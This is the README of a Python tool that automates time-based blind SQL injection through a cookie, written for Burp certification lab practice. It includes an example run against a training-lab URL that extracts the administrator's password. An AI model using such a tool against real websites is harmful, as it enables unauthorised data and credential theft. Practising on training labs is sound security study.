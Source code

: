 # BSQLi
## Description
This tool help to extract data from databases with blind SQLi Injections  
I made this tool while preparing for BURP Practitioner certification. As most labs suggest to inject Blind SQLi in cookie,
this first version injects only in a specified cookie and only extracts password from table 'users' with columns 'username'
and 'password' of a single user.

## Requirements 
This script works with python 3.X
and needs requests module  
`pip3 install requests`

## Usage
```bash
PS C:\BSQLi> python .\bsqli.py -h 
usage: bsqli.py [-h] [-u U] [--cookies COOKIES] [--target TARGET] [--threshold THRESHOLD]

Automate Blind SQLI

optional arguments:
  -h, --help            show this help message and exit
  -u U                  urls to test
  --cookies COOKIES     cookies
  --target TARGET       target cookie to inject
  --threshold THRESHOLD
                        sleep value
  --user USER           User to get password
```
example :
```bash
PS C:\BSQLi> python .\bsqli.py -u https://0ab4006203554a31c012a430005400b3.web-security-academy.net/ --cookies "TrackingId=XKIVlpvhenclkwq9; session=ooCCcMKy1o34VwWinSuRNvyssm3OkZJD" --target TrackingId --threshold 7 --user administrator

         ####    ###    ###   #        #
         #   #  #   #  #   #  #
         #   #  #      #   #  #       ##
         ####    ###   #   #  #        #
         #   #      #  #   #  #        #
         #   #  #   #  #   #  #        #
         ####    ###    ###   #####   ###
                           ##

testing 'https://0ab4006203554a31c012a430005400b3.web-security-academy.net/' for blind SQLi
Will sleep for 7 for the correct values.
[+] Connected to URL
[+] Target injectable
[+] Got user administrator
getting length.....
[+] Length is : 20
Extracting Data ....
blei2n48bania9gh6pgn
[+] Got : blei2n48bania9gh6pgn

```